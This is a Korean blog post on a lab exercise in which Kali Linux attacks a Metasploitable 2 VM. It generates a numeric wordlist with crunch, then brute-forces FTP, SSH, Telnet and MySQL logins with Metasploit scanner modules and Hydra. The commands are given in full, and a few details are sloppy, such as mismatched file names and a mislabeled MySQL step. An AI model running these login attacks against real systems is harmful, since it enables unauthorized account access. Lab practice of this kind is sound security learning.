 ```yaml
---
layout: post
title: "모의해킹 : Brute force"
tags: [event]
---
```


<span style="font-size:3em; color:#33FFFF;">모의해킹 : Brute force</span>
<br> 
Brute force는 무차별 대입 공격으로 불리며 비밀번호를 탈취하기 위한 가장 고전적이면서 가장 효과적인 방법이다.
<br> 
이론상으로 아무리 복잡한 비밀번호 체계일지라도 충분한 시간만 주이지면 해독이 가능한 공격이다.
<br> 
<br> 


<style type="text/css">
.tg  {border-collapse:collapse;border-spacing:0;}
.tg td{border-color:black;border-style:solid;border-width:1px;font-family:Arial, sans-serif;font-size:14px;
  overflow:hidden;padding:10px 5px;word-break:normal;}
.tg th{border-color:black;border-style:solid;border-width:1px;font-family:Arial, sans-serif;font-size:14px;
  font-weight:normal;overflow:hidden;padding:10px 5px;word-break:normal;}
.tg .tg-baqh{text-align:center;vertical-align:top}
.tg .tg-amwm{font-weight:bold;text-align:center;vertical-align:top}
</style>


<table class="tg">
<thead>
  <tr>
    <th class="tg-amwm">구분</th>
    <th class="tg-amwm">운영체제</th>
    <th class="tg-amwm">IP</th>
    <th class="tg-amwm">비고</th>
  </tr>
</thead>
<tbody>
  <tr>
    <td class="tg-baqh">공격자</td>
    <td class="tg-baqh">Kali linux</td>
    <td class="tg-baqh">172.16.27.140</td>
    <td class="tg-baqh">VM을 이용한 가상 환경</td>
  </tr>
  <tr>
    <td class="tg-baqh">희생자</td>
    <td class="tg-baqh">Metasploitable 2</td>
    <td class="tg-baqh">172.16.27.143</td>
    <td class="tg-baqh">VM을 이용한 가상 환경</td>
  </tr>
</tbody>
</table>
해당 공격을 실습하기 전 필요한 가상환경은 위 표와 같다.
<br> 
<br> 
<br> 


<span style="font-size:1.5em; color:#66CCFF;">Crunch</span>
<br>
<span style="font-size:1em; color:#FF0033;">Crunch</span>도구를 통해 칼리리눅스에서 무차별 대입 공격에 필요한 비밀번호 항목을 생성할 수 있다.
```
# cat /usr/share/crunch/charset.lst
```
<div style="text-align:center;">
<figure>
<img src="https://user-images.githubusercontent.com/92027143/204799516-817219c6-d54e-4950-adc5-d0769daffd97.png" >
<figcaption>
cat /usr/share/crunch/charset.lst 명령어를 입력한 모습
</figcaption>
</figure>
</div>
위 명령어를 통해 크런치 사용법을 확인할 수 있다. 이 중에서 numeric 플래그를 이용하여 숫자로만 이뤄진 비밀번호를 생성한다.
<br>
<br>


```
# crunch 1 4 -f /usr/share/crunch/charset.lst numeric -o /root/passwords.txt
```
위 명령어는 4자리로 이뤄진 비밀번호를 생성하라는 의미다. 여기서 비밀번호를 생성한 이유는 무차별 대입 공격의 하나인 <span style="font-size:1em; color:#FF0033;">Dictionary 공격</span> 일명 사전 기반 공격을 하기 위함이다. 이렇게 무차별 대입 공격을 하기 위한 사전이 준비되어 있다.
<br>
<br>


```
# cat > /root/user.txt
root
```
추가적으로 위 명령어를 실행하여 관리자 계정으로 사용하는 단어를 작성한다.
<br>
root는 Unix/Linux 기반의 운영체제와 My-sql 서버 등에서 사용하는 관리자 계정이다.
<br> 
<br> 
<br> 


<span style="font-size:1.5em; color:#66CCFF;">공격 실습</span>
<br>
```
# msfconsole
```
공격 실습에 앞서 위 명령어를 통해 메타스플로잇에 접속한다.
<br>
<br>


```
use auxiliary/scanner/ftp/ftp_login
set rhosts 172.16.27.143
set user_file /root/users.tx
set pass_file /root/passwords.txt
set stop_on_success true
set threads 256
run
```
위 명령어를 이용하여 FTP 서비스를 대상으로 공격해본다.
<br>
<br>


```
use auxiliary/scanner/ssh/ssh_login
set rhosts 172.16.27.143
set user_file /root/users.tx
set pass_file /root/passwords.txt
set stop_on_success true
set threads 256
run
```
위 명령어를 이용하여 ssh 서비스를 대상으로 공격해본다.
<br>
<br>


```
use auxiliary/scanner/telnet/telnet_login
set rhosts 172.16.27.143
set user_file /root/users.tx
set pass_file /root/passwords.txt
set stop_on_success true
set threads 256
run
```
위 명령어를 이용하여 Telnet 서비스를 대상으로 공격해본다.
<br>
<br>


```
use auxiliary/scanner/mysql/mysql_login
set rhosts 172.16.27.143
set rport 3306
set user_file /root/users.tx
set pass_file /root/passwords.txt
set stop_on_success true
set threads 256
run
```
위 명령어를 이용하여 Telnet 서비스를 대상으로 공격해본다.
<br>
<br>


이렇게 메타스플로잇을 이용하여 무차별 대입 공격을 할 수 있다. 하지만 이 경우 시간이 오래 걸릴 수 있기 때문에 <span style="font-size:1em; color:#FF0033;">Hydra</span>를 이용하여 지연 시간을 줄일 수 있다.
<br> 
<br> 
<br> 


<span style="font-size:1.5em; color:#66CCFF;">Hydra</span>
<br> 
<span style="font-size:1em; color:#FF0033;">Hydra</span>는 모의 침투 운영체제에서 기본으로 제공하는 무차별 대입 공격 도구다.
<br>
<br>


```
# hydra -l root -P /root/passwords.txt -f 172.16.27.143 ftp
```
위 명령어를 이용하여 ftp 서비스를 대상으로 공격하며 뒤 서비스를 ssh, telnet으로 변경하면 다른 서비스에 공격할 수 있다.
<br>
<br>


이외에도 흔히 정보 수집 도구로만 알려진 Nmap으로도 무차별 대입 공격이 가능하다. Nmap의 NSE 모듈을 사용하여 공격을 수행할 수 있다.
<br>
<br>
<br>


<div style="text-align:center;">
<figure>
<img src="https://user-images.githubusercontent.com/92027143/204810812-099b9090-3ffb-48ff-b2da-b995b4c87cae.png" >
<figcaption>
my-sql을 대상으로 무차별 대입 공격
</figcaption>
</figure>
</div>
<br>
<br>


<span style="font-size:1.5em; color:#66CCFF;">Author</span>
<p>
<div>
   <a href="https://accio3014.github.io/" target="_blank">Seokcheon Jeong</a>
</div>
</p>